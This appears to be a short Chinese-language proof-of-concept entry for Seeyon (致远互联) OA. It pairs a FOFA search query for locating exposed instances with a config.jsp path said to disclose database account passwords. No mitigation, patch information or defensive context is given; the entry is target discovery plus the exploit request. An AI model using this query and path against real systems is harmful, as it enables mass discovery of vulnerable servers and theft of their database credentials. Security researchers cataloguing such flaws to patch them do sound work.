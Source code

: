 ## 资产收集：
fofa：body="yyoa" && app="致远互联-OA"
## POC：
可获取数据库账户密码等信息：   
`/yyoa/ext/trafaxserver/SystemManage/config.jsp`  
![](img/config.png)
